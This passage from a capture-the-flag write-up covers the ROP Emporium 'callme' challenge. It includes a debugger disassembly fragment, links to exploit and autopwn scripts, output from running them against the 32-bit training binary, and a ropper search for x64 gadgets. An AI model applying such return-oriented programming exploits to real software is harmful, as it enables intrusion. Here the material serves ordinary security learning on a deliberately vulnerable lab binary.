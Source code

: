 ```
   0x08048780 <+49>:    call   0x80484f0 <callme_one@plt>
   0x08048785 <+54>:    add    esp,0x10
   0x08048788 <+57>:    sub    esp,0xc
   0x0804878b <+60>:    push   0x1
   0x0804878d <+62>:    call   0x8048510 <exit@plt>
End of assembler dump.
gef➤ 
```

Here's the exploit script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/ropemporium/callme/exploit32.py)

On running it

```
┌──(mark㉿haxor)-[~/…/Challs/RopEmperium/callme/32bits]
└─$ python exploit.py
[+] Starting local process '/home/mark/Desktop/BofLearn/Challs/RopEmperium/callme/32bits/callme32': pid 203683
[*] Switching to interactive mode
[*] Process 'callme32' stopped with exit code 0 (pid 203683)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Here's the autopwn script using ROP [Script]([Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/ropemporium/callme/autopwn32.py))

It automates the stress 😭😭 but its cool 🙂

On running it we get the flag

```
┌──(mark㉿haxor)-[~/…/Challs/RopEmperium/callme/32bits]
└─$ python3 autopwn.py 
[+] Starting local process '/home/mark/Desktop/BofLearn/Challs/RopEmperium/callme/32bits/callme32': pid 208792
[*] Loaded 10 cached gadgets for './callme32'
[+] callme_one() called correctly
[+] callme_two() called correctly
[+] ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/mark/Desktop/BofLearn/Challs/RopEmperium/callme/32bits/callme32' stopped with exit code 0 (pid 208792)
```

So for the x64 binary the approach is similar but this time we need to pass in the argument in the correct register 

```
└─$ ropper --file callme --search "pop rdi" 
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 
```
